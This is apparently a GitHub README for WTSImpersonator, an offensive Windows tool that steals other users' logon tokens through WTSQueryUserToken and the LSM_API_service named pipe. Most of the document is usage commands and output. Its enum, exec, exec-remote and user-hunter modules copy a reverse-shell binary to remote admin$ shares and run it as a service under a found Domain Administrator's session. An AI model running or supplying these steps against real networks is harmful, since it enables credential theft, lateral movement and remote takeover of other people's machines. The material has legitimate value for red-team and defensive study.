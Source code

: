 # WTSImpersonator
WTSImpersonator utilizes WTSQueryUserToken to steal other users tokens \(Local/Remote\) without using NtOpenProcess or touching Lsass.exe by abusing RPC Named Pipe "\\pipe\LSM_API_service" \(Admin Privileges Required\)    
  

![wtsLOGO (2) (2)](https://github.com/OmriBaso/WTSImpersonator/assets/50461376/f4de5d0a-374b-4e38-b30c-13eb34e6aa6e)

 

## Usage: 
 
#### `enum` Module:  
  
Enumerate Local Users on the machine the tool is running from  
```powershell
.\WTSImpersonator.exe -m enum
```
Enumerate a machine remotely given an IP or an Hostname.
```powershell  
.\WTSImpersonator.exe -m enum -s 192.168.40.131  
```
#### `exec` / `exec-remote` Module:  
Both "exec" and "exec-remote" requires being in a **"Service"** context.  
The local "exec" module does not need anything buy the WTSImpersonator.exe and the binary you want to execute \(-c flag\), this could be  
a normal "C:\Windows\System32\cmd.exe" and you will open a CMD as the user you desire, an example would be  
```powershell
.\WTSImpersonator.exe -m exec -s 3 -c C:\Windows\System32\cmd.exe  
```
you could use PsExec64.exe in order to obtain a service context  
```powershell
.\PsExec64.exe -accepteula -s cmd.exe
```powershell
For `exec-remote` things are a bit different, I created a service that can be installed remotely just like `PsExec.exe`  
the service will receive a `SessionId` and a `binary to run` as an argument and it will be installed and executed remotely given the right permissions  
an example run would look as follows:
  
```powershell
PS C:\Users\Jon\Desktop> .\WTSImpersonator.exe -m enum -s 192.168.40.129

 __          _________ _____ _____                                                 _
 \ \        / /__   __/ ____|_   _|                                               | |
  \ \  /\  / /   | | | (___   | |  _ __ ___  _ __   ___ _ __ ___  ___  _ __   __ _| |_ ___  _ __
   \ \/  \/ /    | |  \___ \  | | | '_ ` _ \| '_ \ / _ \ '__/ __|/ _ \| '_ \ / _` | __/ _ \| '__|
    \  /\  /     | |  ____) |_| |_| | | | | | |_) |  __/ |  \__ \ (_) | | | | (_| | || (_) | |
     \/  \/      |_| |_____/|_____|_| |_| |_| .__/ \___|_|  |___/\___/|_| |_|\__,_|\__\___/|_|
                                            | |
                                            |_|
         By: Omri Baso
WTSEnumerateSessions count: 1
[2] SessionId: 2 State: WTSDisconnected (4) WinstationName: ''
        WTSUserName:  Administrator
        WTSDomainName: LABS
        WTSConnectState: 4 (WTSDisconnected)
```  
as can be seen above the `Sessionid` of the Administrator account is `2` so we use it next in the `id` variable when executing code remotely
```powershell
PS C:\Users\Jon\Desktop> .\WTSImpersonator.exe -m exec-remote -s 192.168.40.129 -c .\SimpleReverseShellExample.exe -sp .\WTSService.exe -id 2
```  
#### `user-hunter` Module:  

The user hunter module will give you the ability to enumerate multiple machines and if a given user is found, it will execute code on this user behalf.  
this is useful when hunting for "Domain Admins" while having local administrator rights on a few machines.  
```powershell
PS C:\Users\Jon\Desktop> .\WTSImpersonator.exe -m user-hunter -uh LABS/Administrator -ipl .\test.txt -c .\SimpleReverseShellExample.exe -sp .\WTSService.exe

 __          _________ _____ _____                                                 _
 \ \        / /__   __/ ____|_   _|                                               | |
  \ \  /\  / /   | | | (___   | |  _ __ ___  _ __   ___ _ __ ___  ___  _ __   __ _| |_ ___  _ __
   \ \/  \/ /    | |  \___ \  | | | '_ ` _ \| '_ \ / _ \ '__/ __|/ _ \| '_ \ / _` | __/ _ \| '__|
    \  /\  /     | |  ____) |_| |_| | | | | | |_) |  __/ |  \__ \ (_) | | | | (_| | || (_) | |
     \/  \/      |_| |_____/|_____|_| |_| |_| .__/ \___|_|  |___/\___/|_| |_|\__,_|\__\___/|_|
                                            | |
                                            |_|
         By: Omri Baso

[+] Hunting for: LABS/Administrator On list: .\test.txt
[-] Trying: 192.168.40.131
[+] Opned WTS Handle: 192.168.40.131
[-] Trying: 192.168.40.129
[+] Opned WTS Handle: 192.168.40.129

----------------------------------------
[+] Found User: LABS/Administrator On Server: 192.168.40.129
[+] Getting Code Execution as: LABS/Administrator
[+] Trying to execute remotly
[+] Transfering file remotely from: .\WTSService.exe To: \\192.168.40.129\admin$\voli.exe
[+] Transfering file remotely from: .\SimpleReverseShellExample.exe To: \\192.168.40.129\admin$\DrkSIM.exe
[+] Successfully transfered file!
[+] Successfully transfered file!
[+] Sucessfully Transferred Both Files
[+] Will Create Service voli
[+] Create Service Success : "C:\Windows\voli.exe" 2 C:\Windows\DrkSIM.exe
[+] OpenService Success!
[+] Started Sevice Sucessfully!

[+] Deleted Service
```
## Credits:
#### Research / Coding: [Omri Baso](https://www.linkedin.com/in/omri-baso/)
#### Graphics Logo: [Kim Dvash](https://www.linkedin.com/in/kim-d-5b3114111/)
